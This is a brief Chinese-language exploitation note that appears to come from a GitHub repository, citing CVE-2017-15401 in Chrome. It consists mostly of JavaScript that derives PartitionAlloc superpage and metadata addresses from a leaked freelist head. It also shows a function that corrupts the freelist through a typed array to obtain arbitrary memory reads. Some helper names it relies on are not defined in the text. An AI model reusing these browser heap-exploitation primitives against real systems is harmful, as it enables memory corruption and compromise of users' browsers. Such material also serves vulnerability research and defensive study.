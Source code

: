 # arbitrary read/write

### 1、可以获得freelisthead

eg. cve-2017-15401

##### 由freelisthead获得superpage信息：
```
function getSuperPageBase(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr & superPageBaseMask;
    return superPageBase;
}
 
function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex << BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
}
 
function getPartitionPageIndex(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    return partitionPageIndex;
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
}
```

##### arbitrary read/write：

```
freelist = new Uint32Array(2);//可以改写freelisthead
freelist.buffer;

function u64_to_arr(u64, arr) {
  arr[0] = u64.lo;
  arr[1] = u64.hi;
}

function read(addr, freelist) {
  u64_to_arr(addr, freelist); //改freelist为addr
  var b = new Uint32Array(2);
  b.buffer;
  junk.push(b);
  return arr_to_u64(freelist).bswap();
}

```